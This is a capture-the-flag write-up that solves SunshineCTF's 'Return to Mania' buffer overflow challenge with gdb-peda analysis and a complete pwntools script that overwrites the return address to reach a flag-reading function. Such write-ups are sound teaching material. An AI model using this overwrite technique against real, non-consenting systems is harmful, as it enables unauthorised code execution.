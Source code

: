 #PWN
As a word of warning, I'm not all that good at pwn. Luckily, there were only two pwn challenges. 1 out of 2 is good right? T_T
<br>
<br>
## 50 points: Return to Mania
```
To celebrate her new return to wrestling, Captn Overflow authored this challenge to enter the ring

nc ret.sunshinectf.org 4301

Author: bambu
```
<a href='http://files.sunshinectf.org/pwn/return-to-mania'>binary</a>

I started out by just running the file. 

![](/Images/2019/SunshineCTF/retbegin.PNG)

As the description suggested, it's a buffer overflow challenge. And since it gives us an address, it's probably a return pointer overflow. Let's analyze the executable with <a href='https://github.com/longld/peda'>gdb-peda</a>, shall we?

![](/Images/2019/SunshineCTF/gdbfunc.PNG)

I always start by looking at the functions, then disassembling them.

![](/Images/2019/SunshineCTF/retmain.PNG)

![](/Images/2019/SunshineCTF/retwelc.PNG)

![](/Images/2019/SunshineCTF/remania.PNG)

Interesting. `main` calls `welcome`, but `welcome` never calls `mania`, regardless of the key you put in. So `mania` is probably our goal function here, since the title is literally "Return to Mania". But what does `mania` do? It looks like it reads in a file, so I'm hopeful. I set a breakpoint at main, ran the program, and when it broke, set the program counter to the address of mania.

![](/Images/2019/SunshineCTF/maniainteresting.PNG)

Bingo. That's what we want. It tried to open a '`flag.txt`', which means on the service it actually would open the flag. The address of mania is `0x90` less than the address welcome, and hopefully that's the case for the remote version too. Fun fact: I spent a long time trying to figure out why my code didn't work, and it turned out that I originally did my math wrong (I thought it was `0xA0`).

![](/Images/2019/SunshineCTF/addressesret.PNG)

I then proceeded to use good old <a href='https://github.com/Gallopsled/pwntools'>pwntools</a> to start making my hack. Its a bit messy, so I added some comments to help. This was my final code.
```
from pwn import *
context.log_level = 'debug'               #debug mode, so I can see exactly what my code is doing. Suggested by kcolley
r = remote('ret.sunshinectf.org',4301)    #connect to the service
#r = process('./return-to-mania')         #comment out above line and uncomment this one to test locally
data = r.recvuntil('\n')                  #receive the first line, but I don't care about it so...
data = r.recvuntil('\n')                  #overwrite the first line with the second
print data                                #debug print

x = data[-11:]                            #get the address of welcome
x = int(x,0)                              #convert the hex string to an integer
target = x - int('0x90', 0)               #subtract 0x90 from the address (

target = hex(target)                      #convert the address back to hex for debug purposes
print target                              #debug print

target = int(target, 0)                   #convert it back into integer for actual use
print target                              #debug print

target = p32(target, endian='little')     #convert the integer into a 32 bit architecture little endian address
print target                              #debug print, should print utf-8 encoded hex (often has unprintables)
r.sendline('a'*22+target)                 #send the exploit on over! Thanks to kcolley for suggesting sendline and not just send
print r.recv()                            #print the first line, had no flag so:
print r.recv()                            #print next line (flag)
```
I ran it locally with success:

![](/Images/2019/SunshineCTF/localtestret.PNG)

And then got the flag from the service:

![](/Images/2019/SunshineCTF/serviceret.PNG)

flag: `sun{0V3rfl0w_rUn_w!Ld_br0th3r}`

## 200 points: CyberRumble (TBA)
